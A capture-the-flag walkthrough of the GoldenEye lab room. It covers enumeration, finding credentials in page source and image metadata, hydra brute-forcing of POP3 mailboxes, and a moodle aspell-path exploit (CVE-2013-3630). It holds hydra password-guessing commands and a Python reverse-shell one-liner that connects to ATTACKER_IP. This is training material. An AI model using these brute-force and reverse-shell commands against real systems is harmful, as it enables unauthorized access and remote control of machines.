**This room is guided and contains many prompts. I won't include all of the prompts in this write-up as there's just way too many. Instead, I'll simplify them.**

---

### [ Task 1: Enumeration ]

Let's first start off with a full `nmap` scan on the target machine:

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.49.24
```

**Results:**

```
PORT      STATE SERVICE  REASON         VERSION
25/tcp    open  smtp     syn-ack ttl 61 Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
| ssl-cert: Subject: commonName=ubuntu
| Issuer: commonName=ubuntu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-04-24T03:22:34
| Not valid after:  2028-04-21T03:22:34
| MD5:   cd4a d178 f216 17fb 21a6 0a16 8f46 c8c6
| SHA-1: fda3 fc7b 6601 4746 96aa 0f56 b126 1c29 36e8 442c
| -----BEGIN CERTIFICATE-----
[REDACTED]
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
80/tcp    open  http     syn-ack ttl 61 Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: GoldenEye Primary Admin Server
55006/tcp open  ssl/pop3 syn-ack ttl 61 Dovecot pop3d
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/emailAddress=root@localhost/organizationalUnitName=localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/emailAddress=root@localhost/organizationalUnitName=localhost
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-04-24T03:23:52
| Not valid after:  2028-04-23T03:23:52
| MD5:   d039 2e71 c76a 2cb3 e694 ec40 7228 ec63
| SHA-1: 9d6a 92eb 5f9f e9ba 6cbd dc93 55fa 5754 219b 0b77
| -----BEGIN CERTIFICATE-----
[REDACTED]
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
55007/tcp open  pop3     syn-ack ttl 61 Dovecot pop3d
|_pop3-capabilities: AUTH-RESP-CODE TOP CAPA USER UIDL SASL(PLAIN) STLS RESP-CODES PIPELINING
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/emailAddress=root@localhost/organizationalUnitName=localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/emailAddress=root@localhost/organizationalUnitName=localhost
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-04-24T03:23:52
| Not valid after:  2028-04-23T03:23:52
| MD5:   d039 2e71 c76a 2cb3 e694 ec40 7228 ec63
| SHA-1: 9d6a 92eb 5f9f e9ba 6cbd dc93 55fa 5754 219b 0b77
| -----BEGIN CERTIFICATE-----
[REDACTED]
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time

```

From the nmap results, we can see that there are **4** ports open: **25** (SMTP), **80** (HTTP), **55006** (POP3) and **55007** (POP3) 

Let's take a look at the HTTP Web server:



We have a page telling us to navigate to **/sev-home/** in order to login. Let's visit the sub-directory:



As expected, we are prompted to login. Looks like we need to find a working set of credentials.

If we look at the source code of the main page, we find that an interesting script called **terminal.js** is loaded into the page:



Looking closely at the **terminal.js** script, we  find a comment that reveals the encoded password of a user called **boris**:



The password has been converted into a [HTML entity](https://www.w3schools.com/html/html_entities.asp). Let's use [Cyberchef](https://gchq.github.io/CyberChef/) to decode it:



And we've obtained a set of credentials - **boris:InvincibleHack3r**

Now let's navigate to the **/sev-home/** directory again and log in with our newfound credentials.



The message on the web page tells us that **POP3** is running on a '**very high non-default port**'. From our nmap scan, we know it is running on ports **55006** and **55007**.

---

*POP3 is a one-way client-server protocol in which email is received and held on the email server. POP3 is built into most popular email clients, including  Microsoft Outlook.*

---

If we look at the source code for this page, we see yet another interesting comment at the very bottom:



Now we know of another potential user: **Natalya**.

---

### [ Task 2: Its mail time...  ]

Let's now try to connect to the POP3 server. POP3 runs on two different default ports:

* **Port 110** - Unencrypted port
* **Port 995** - Encrypted port

In our case, from our nmap scan, we can see that port **55006** has been configured with **ssl**, while port **55007** has not. Hence, we should connect to port **55007** as it is the unencrypted port.

```
telnet 10.10.49.24 55007
```



*A list of POP3 commands can be found [here](https://book.hacktricks.xyz/pentesting/pentesting-pop).*

Let's try to reuse boris's credentials from earlier.

```
// in POP3
USER boris
PASS InvincibleHack3r
```



Shoot, authentication failed. Looks like we'll need to do some password brute-forcing! 

Let's use `hydra` with the **fasttrack.txt** wordlist:

```
hydra -l boris -P /usr/share/wordlists/fasttrack.txt -f -s 55007 -t 64 10.10.49.24 pop3
```



Nice! We've found boris's POP3 password: **secret1!**

We can then authenticate ourselves as boris in POP3:



We can use the `LIST` command to list all messages in boris's mailbox:



There are **3** messages. Let's read them with the `RETR` command:

* **MESSAGE 1:**



Nothing of interest here.

* **MESSAGE 2:**



Looks like **natalya** can break boris's codes.

* **MESSAGE 3:**



There seems to be some big masterplan in the works... Boris clearly has some access codes that are very important. 

From message 2, we know that **Natalya** has been able to crack Boris's codes. Let's try to see if we can brute-force her POP3 password and log into her account.

```
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt -f -s 55007 -t 64 10.10.49.24 pop3
```



Natalya's password has been found: **bird**

Let's log into her POP3 account now:



There are 2 messages in Natalya's inbox.

* **Message 1:**



More exposition...

* **Message 2:**



Now we're talking! We have a new set of credentials - **xenia:RCP90rulez!**

We also know that there is a valid sub-directory at **/gnocertdir** and that we should update our **/etc/hosts** file to point the server's IP to **'severnaya-station.com'**

---

### [ Task 3: GoldenEye Operators Training ]

I updated my /etc/hosts file accordingly:



Next, let's visit the **/gnocertdir** directory:



We have a learning management system that is running on **moodle**. There is a login button, maybe the credentials in the email will work here?



Yep it works! We are logged in as **xenia**.

If we look at the **messages** sent to xenia, we see one sent by a user called **Dr Doak**.



Dr Doak mentions that his email username is **doak**. Let's try using `hydra` again to brute-force his password:

``` 
hydra -l doak -P /usr/share/wordlists/fasttrack.txt -f -s 55007 -t 64 10.10.49.24 pop3
```



Dr Doak's POP3 password is **goat**. Let's log into his inbox and read his emails.

There is only 1 email in Doak's inbox:



We've acquired his credentials to the moodle learning site!

After logging into Dr Doak's account, I found an interesting file called '**s3cret.txt**' in the '**My private files**' section.



**Contents of s3cret.txt:**



Looks like the admin's credentials can be found in the **/dir007key/for-007.jpg** file on the web server.

I downloaded the image onto my local machine:



The image itself does not seem to contain the admin's credentials. Perhaps the creds have been embedded into the file using steganography? 

I tried to use tools like `steghide` and `binwalk` to check for embedded data, but there weren't any.

Next, I used `exiftool` to obtain the metadata for the image:



The '**Image Description**' actually contains a **base64-encoded** string!



Decoding the string gives us the admin's password: **xWinter1995x!**

With that, we can now log into the admin's moodle account:



The admin's account has more privileges and we can see that we now have an additional '**Site administration**' section on the left.

After doing some research online on how we can exploit this version of moodle (v 2.2.3), I found the following [CVE](https://www.cvedetails.com/cve/CVE-2013-3630/).

---

*Moodle through 2.5.2 allows remote authenticated administrators to execute arbitrary programs by configuring the aspell pathname and then triggering a spell-check operation within the TinyMCE editor.*  

---

With this, we can open a reverse shell, allowing us to gain a foothold into the target machine.

To carry out the exploit, we need to update the **aspell path** and the **spell engine**. Both of these settings can be found by typing in '**spell**' in the search bar under '**Settings**'.

* **aspell path**

Let's set the path to the following reverse shell [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md): 

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

* **spell engine**

We also make sure to set the **spell engine** to **PSpellShell**.



Once done, we can then open the reverse shell by triggering the spell-check operation within the TinyMCE editor, which can be accessed by creating a new blog post. 

After setting up a netcat listener, we add a new blog post, then click on the spell-check button.



The server will then look into the aspell path to identify the binary that it will execute. In our case, it will use Python and run our code, opening a reverse shell.



And we're in! :smile:

---

### [ Task 4: Privilege Escalation ]

We need to find a way to escalate our privileges.

I'll be using [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to scan for potential privesc vectors.

